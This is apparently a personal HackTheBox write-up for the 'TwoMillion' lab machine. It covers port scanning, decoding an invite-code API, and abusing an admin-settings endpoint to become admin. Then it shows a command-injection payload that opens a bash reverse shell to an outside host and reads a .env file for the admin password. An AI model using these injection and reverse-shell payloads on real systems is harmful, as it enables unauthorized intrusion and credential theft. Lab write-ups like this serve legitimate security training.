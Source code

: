 # recon
- First i use **nmap -p- --min-rate=10000** 10.10.11.221 to check for open ports
- we got 2 ports open 22 and 80 we run nmap -sC -sV -p22,80 10.10.11.221
- after nmap we found port 80 has cookie  PHPSESSID: httponly flag not set
- we go check the site an no response only redirct to 2million.htb so we modify etc/hosts file with the ip to the site
- its a hackthebox site we run feroxbuster with command **feroxbuster -u http://2million.htb**
- we go check the login page i tryed admin@hackthebox.eu and password is password and we got usernotfound after several trys we also get user not found
- i try reflected xss from the url and its not working
- ![xss](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/xss.jpg)
- we try the join page and it has an invite code page we solve it like the real hackthebox challange
- refresh and look in the network tap in the devolper tools we find its send request to inviteapi.min.js and thats intersting out of all the files displayed
- we go to depuuger to get the file and coppy it and beutify it
- after buetigying the code we see two function (makeinvitecode,verifyinvitecode)
- we put makeinvitecode in the console and we see date printed with encryption type ROT13
![makeinvitecode](https://github.com/Islamkafafy123/HackTheBox/blob/main/pictures/invitecode.jpg)
- we copy the data and go to cyperchef after decoding it says **In order to generate the invite code, make a POST request to /api/v1/invite/generate**
- we make post request using curl to the path **curl -X POST http://2million.htb/api/v1/invite/generate**
- we got code in base 64 after decoding **echo  V1pZRjgtRk9ETDktSDZSS1YtRTZQMVk= | base64 -d** we got it and use it to signup with email
- i try login with valid email and wrong passwor we still got usernotfound so we cant enumrate valid emails/username
- all links give server error except challnges and access page
- in access page there are 2 links (regenrate,coonectionpack)
- fireup burpsuite and send the 2 request to repeater and the 2 request gave the same response (VPN creds)
- i try playing with the directry /api/v1/user/vpn/generate from vpn adn all gave 404 or 301 except at /api/v1 it gave description of the api
# now we enumurate the api and exploit
- go to curl and  play with the routes (bruteforce))
- intersting api route /api/v1/admin/settings/update we could change user to admin
- so we go to the path /api/v1/admin/settings/update and we got 200 with messege invalid content type
- look at request and see no content type so we add one with json value **content-type : application/json** we send the request and its says missing parameter email
- we add the email parameter with our value in a json format and also is admin set to 1 and we got admin (idor vuln) we check we are admin with api route and yes we are admin
- It’s worth checking if there is any command injection.
- If the server is doing something like gen_vpn.sh [username], then I’ll try putting a ; in the username to break that into a new command. I’ll also add a # at the end to comment out anything that might come after my input. It works:
- we go to generate vpn with admin and yes it has command inj **{"username":"kafafy ; id #"}** using this payload we got the id command
- we try to get shell on the machine using bash reverse shell  **{"username":"kafafy ; bash -c 'bash -i >& /dev/tcp/10.10.16.63/1234 0>&1' #"}**
- we stablize the shell using --> **python3 -c 'import pty;pty.spawn("/bin/bash")'** --> **stty raw -echo;fg** --> **export TERM=xterm**
- .env is a file is commonly used in PHP applications to store environment variable values
- we cat the file and we got admin password we su to admin and we go the home directory to get the user.txt
# now ROOT SHELL
- **find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'** to find and files owned by admin and yes we find a directory contains mail
- the email contains info about cve in overlayfs
